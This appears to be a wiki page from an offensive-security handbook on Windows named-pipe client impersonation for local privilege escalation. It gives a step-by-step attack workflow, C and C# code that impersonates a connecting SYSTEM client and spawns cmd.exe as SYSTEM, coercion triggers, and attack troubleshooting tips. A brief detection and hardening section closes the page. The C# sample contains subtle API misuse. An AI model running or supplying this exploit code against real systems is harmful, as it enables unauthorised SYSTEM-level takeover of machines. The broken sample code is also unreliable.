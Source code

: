 # Named Pipe Client Impersonation

Named Pipe client impersonation is a local privilege escalation primitive that lets a named-pipe server thread adopt the security context of a client that connects to it. In practice, an attacker who can run code with SeImpersonatePrivilege can coerce a privileged client (e.g., a SYSTEM service) to connect to an attacker-controlled pipe, call ImpersonateNamedPipeClient, duplicate the resulting token into a primary token, and spawn a process as the client (often NT AUTHORITY\SYSTEM).

This page focuses on the core technique. For end-to-end exploit chains that coerce SYSTEM to your pipe, see the Potato family pages referenced below.

## TL;DR
- Create a named pipe: \\.\pipe\<random> and wait for a connection.
- Make a privileged component connect to it (spooler/DCOM/EFSRPC/etc.).
- Read at least one message from the pipe, then call ImpersonateNamedPipeClient.
- Open the impersonation token from the current thread, DuplicateTokenEx(TokenPrimary), and CreateProcessWithTokenW/CreateProcessAsUser to get a SYSTEM process.

## Requirements and key APIs
- Privileges typically needed by the calling process/thread:
  - SeImpersonatePrivilege to successfully impersonate a connecting client and to use CreateProcessWithTokenW.
  - Alternatively, after impersonating SYSTEM, you can use CreateProcessAsUser, which may require SeAssignPrimaryTokenPrivilege and SeIncreaseQuotaPrivilege (these are satisfied when you’re impersonating SYSTEM).
- Core APIs used:
  - CreateNamedPipe / ConnectNamedPipe
  - ReadFile/WriteFile (must read at least one message before impersonation)
  - ImpersonateNamedPipeClient and RevertToSelf
  - OpenThreadToken, DuplicateTokenEx(TokenPrimary)
  - CreateProcessWithTokenW or CreateProcessAsUser
- Impersonation level: to perform useful actions locally, the client must allow SecurityImpersonation (default for many local RPC/named-pipe clients). Clients can lower this with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION when opening the pipe.

## Minimal Win32 workflow (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
    LPCSTR pipe = "\\\\.\\pipe\\evil";
    HANDLE hPipe = CreateNamedPipeA(
        pipe,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
        1, 0, 0, 0, NULL);

    if (hPipe == INVALID_HANDLE_VALUE) return 1;

    // Wait for privileged client to connect (see Triggers section)
    if (!ConnectNamedPipe(hPipe, NULL)) return 2;

    // Read at least one message before impersonation
    char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

    // Impersonate the last message sender
    if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

    // Extract and duplicate the impersonation token into a primary token
    HANDLE impTok = NULL, priTok = NULL;
    if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
    if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

    // Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
    STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
    if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
                                 L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                                 0, NULL, NULL, &si, &pi)) {
        // Fallback: CreateProcessAsUser after you already impersonated SYSTEM
        CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                             NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    }

    RevertToSelf(); // Restore original context
    return 0;
}
```
Notes:
- If ImpersonateNamedPipeClient returns ERROR_CANNOT_IMPERSONATE (1368), ensure you read from the pipe first and that the client didn’t restrict impersonation to Identification level.
- Prefer DuplicateTokenEx with SecurityImpersonation and TokenPrimary to create a primary token suitable for process creation.

## .NET quick example
In .NET, NamedPipeServerStream can impersonate via RunAsClient. Once impersonating, duplicate the thread token and create a process.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
  [DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
  [DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
  [DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
  static void Main(){
    using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
    s.WaitForConnection();
    // Ensure client sent something so the token is available
    s.RunAsClient(() => {
      IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
      IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
      var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
      Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
    });
  }
}
```

## Common triggers/coercions to get SYSTEM to your pipe
These techniques coerce privileged services to connect to your named pipe so you can impersonate them:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

See detailed usage and compatibility here:

-
[[roguepotato-and-printspoofer.md]]
-
[[juicypotato.md]]

If you just need a full example of crafting the pipe and impersonating to spawn SYSTEM from a service trigger, see:

-
[[from-high-integrity-to-system-with-name-pipes.md]]

## Troubleshooting and gotchas
- You must read at least one message from the pipe before calling ImpersonateNamedPipeClient; otherwise you’ll get ERROR_CANNOT_IMPERSONATE (1368).
- If the client connects with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION, the server cannot fully impersonate; check the token’s impersonation level via GetTokenInformation(TokenImpersonationLevel).
- CreateProcessWithTokenW requires SeImpersonatePrivilege on the caller. If that fails with ERROR_PRIVILEGE_NOT_HELD (1314), use CreateProcessAsUser after you already impersonated SYSTEM.
- Ensure your pipe’s security descriptor allows the target service to connect if you harden it; by default, pipes under \\.\pipe are accessible according to the server’s DACL.

## Detection and hardening
- Monitor named pipe creation and connections. Sysmon Event IDs 17 (Pipe Created) and 18 (Pipe Connected) are useful to baseline legitimate pipe names and catch unusual, random-looking pipes preceding token-manipulation events.
- Look for sequences: process creates a pipe, a SYSTEM service connects, then the creating process spawns a child as SYSTEM.
- Reduce exposure by removing SeImpersonatePrivilege from nonessential service accounts and avoiding unnecessary service logons with high privileges.
- Defensive development: when connecting to untrusted named pipes, specify SECURITY_SQOS_PRESENT with SECURITY_IDENTIFICATION to prevent servers from fully impersonating the client unless necessary.

## References
- Windows: ImpersonateNamedPipeClient documentation (impersonation requirements and behavior). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (walkthrough and code examples). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation


